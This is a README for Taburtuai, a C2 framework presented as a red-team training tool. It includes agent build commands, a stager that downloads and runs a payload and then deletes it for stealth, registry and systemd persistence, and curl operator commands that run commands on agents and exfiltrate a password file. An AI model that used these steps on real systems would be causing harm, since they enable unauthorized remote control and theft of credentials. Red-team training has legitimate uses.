

# Taburtuai - C2 Tool for Red Teaming Exercises

<p align="center">
  
</p>

**Taburtuai** is a simple Command and Control (C2) tool currently in development. It is designed for training and experimentation in the field of cybersecurity, particularly for red teaming simulations. While it currently only includes basic features, the goal of Taburtuai is to provide a better understanding of server-agent communication using various protocols such as HTTP, HTTPS, DNS, and ICMP.

## Development Status

Taburtuai is still in its early stages and doesn't have many features yet. The primary focus of this tool is to provide a basic exercise in how a C2 server operates and how an agent communicates with the server in a red team environment. Additional features will be developed as the tool matures.

**Current features:**
- Basic use of HTTP/HTTPS for C2 communication.
- OS Command execution.
- File Upload/Download functionality.
- Basic Persistence (Registry for Windows, systemd service for Linux).
- Simple Web Dashboard for managing agents and tasks (CLI version coming soon).
- Task Scheduling.

## Build and Deployment

Taburtuai supports two types of agents:

### 1. Stageless Agent

The **Stageless Agent** is a single binary that contains all the logic and configuration.  
Operator can build it via the web dashboard:
- **Dashboard Option:** Use the built-in builder on the dashboard to generate a stageless agent.
- The builder uses compile-time flags (`-ldflags`) to embed configuration (e.g., server URL, AES key, beacon interval) into the agent.

**Example Build Command (Manual):**

```bash
cd agent_stageless
go build -o agent.exe -ldflags="-X main.defaultServerURL=http://127.0.0.1:8080 -X main.defaultKey=SpookyOrcaC2AES1 -X main.defaultInterval=5" .
```

When built, the agent will use the embedded configuration and automatically connect to the C2 server.

### 2. Staged Agent

The **Staged Agent** consists of two components:

- **Stager:** A minimal binary that downloads the full-stage payload from the C2 server and executes it.  
- **Stage:** The full payload (agent logic) that receives parameters (server URL, AES key, etc.) via command-line arguments and starts the full agent loop.

#### Building the Stager

The builder (in the dashboard under build type "staged") compiles the stager located in the folder `agent_staged/stager/`.

**Example Build Command for Stager (Manual):**

```bash
cd agent_staged/stager
go build -o stager.exe -ldflags="-X main.defaultServerURL=http://127.0.0.1:8080 -X main.defaultStagePath=/stage.bin -X main.defaultKey=SpookyOrcaC2AES1" .
```

#### Building the Stage

The stage (full agent) is built separately from the stager.  
It should be compiled from the folder `agent_staged/stage/` and result in a binary (e.g., `stage.exe` for Windows or `stage.bin` for Linux).

**Example Build Command for Stage (Manual):**

```bash
cd agent_staged/stage
# Untuk Windows:
GOOS=windows GOARCH=amd64 go build -o stage.exe .
# Untuk Linux:
# go build -o stage.bin .
```

Then, deploy the resulting stage binary on the C2 server so that the stager can download it via the endpoint `/stage.bin`.

#### How It Works

1. **Stager Execution:**  
   - The stager downloads the stage payload from the C2 server (via the `/stage.bin` endpoint) and saves it to disk.  
   - It then executes the stage with the required parameters (server URL, AES key, etc.).  
   - Once the stage is launched, the stager may optionally remove the downloaded file for stealth.

2. **Stage Execution:**  
   - The stage starts and enters the agent loop, polling the C2 server for commands and processing tasks as per usual.

## Running the C2 Infrastructure

### Server

1. **Setup Server:**  
   - Ensure your server folder (with `main.go`, `handlers.go`, etc.) is properly structured.  
   - Build and run the server:
     ```bash
     cd server
     go run main.go
     ```
   - The server listens on port 8080 and exposes endpoints like `/ping`, `/result`, `/command`, `/exfil`, `/upload`, `/download`, `/schedule`, and `/getconfig`.

### Agent

2. **Deploy Agent (Stageless or Staged):**  
   - For **Stageless Agent:**  
     Build the agent as shown above and deploy the resulting binary on the target machine.  
     When run, the agent automatically connects to the C2 server using its embedded configuration.

   - For **Staged Agent:**  
     - First, deploy the stage payload binary on the server (serve it via an endpoint `/stage.bin`).  
     - Then, deploy the stager binary on the target. When the stager runs, it downloads the stage binary, saves it locally (e.g., as `stage.exe`), and executes it with the proper parameters.

### Example Commands

- **Upload file to server:**
  ```bash
  curl -X POST -F "file=@logo.jpg" "http://127.0.0.1:8080/upload?filename=test.jpg"
  ```
- **Send command to agent:**
  ```bash
  curl "http://127.0.0.1:8080/command?id=<AGENT_ID>&cmd=whoami"
  ```
- **Request file exfiltration:**
  ```bash
  curl "http://127.0.0.1:8080/exfil?id=<AGENT_ID>&filename=C:\\password.txt"
  ```
- **Schedule a command:**
  ```bash
  curl "http://127.0.0.1:8080/schedule?id=<AGENT_ID>&cmd=whoami&time=2025-03-16T23:07:00"
  ```

## Future Enhancements

- **CLI Dashboard:** Implement a CLI-based interface for operator commands.
- **Advanced Evasion & Persistence:** Further improve stealth, inject into trusted processes, etc.
- **Multi-Protocol Communication:** Tambahkan dukungan untuk DNS, ICMP tunneling.
- **Dynamic Plugin Architecture:** Untuk modul tambahan seperti keylogger, screenshot, dsb.

---

## Conclusion

Taburtuai is designed to be a flexible, modular C2 tool. The current implementation supports both a **stageless agent** (a single universal binary) and a **staged agent** (with a stager that downloads and executes a full stage payload). The build process can be managed via a web dashboard, allowing operators to customize parameters without recompiling the entire agent manually.

Feel free to ask if you have any further questions or need additional adjustments!
